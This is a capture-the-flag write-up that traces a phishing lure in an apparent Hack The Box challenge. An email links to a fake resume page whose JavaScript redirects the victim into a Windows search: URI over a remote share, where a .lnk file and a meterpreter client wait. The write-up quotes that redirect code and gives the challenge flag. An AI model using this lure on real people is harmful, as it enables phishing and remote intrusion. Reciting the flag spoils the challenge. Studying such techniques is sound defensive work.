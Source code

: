 # A new Hire

The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

-----

We are given an `email.eml` with the body relating to a job application. Within the email, there is a link to "review a resume":

```
You can review his resume here:
`storage.microsoftcloudservices.com:[PORT]/index.php`
```

Setting this domain to the given IP within `/etc/hosts` and navigating to the website shows a blurred resume:

![[Pasted image 20250322154308.png]]

Looking at the sourcecode, we see references to an additional path - `3fe1690d955e8fd2a0b282501570e1f4/resumes`

```js
function getResume() {
	window.location.href=`search:displayname=Downloads&subquery=\\\\${window.location.hostname}@${window.location.port}\\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\`;
}
```

Looking through the directory structure:

```
3fe1690d955e8fd2a0b282501570e1f4
../Python312/
..../[Python3.12 source files and binaries]
../configs/
..../client.py
../resumes/
..../Resume.pdf.lnk
../resumesS/
..../resume_official.pdf
```

Within `configs/client.py`, we see a meterpreter shell is being set up. The `key` variable contains the flag as Base64:

```python
key = base64.decode("SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==")
```

```
HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}
```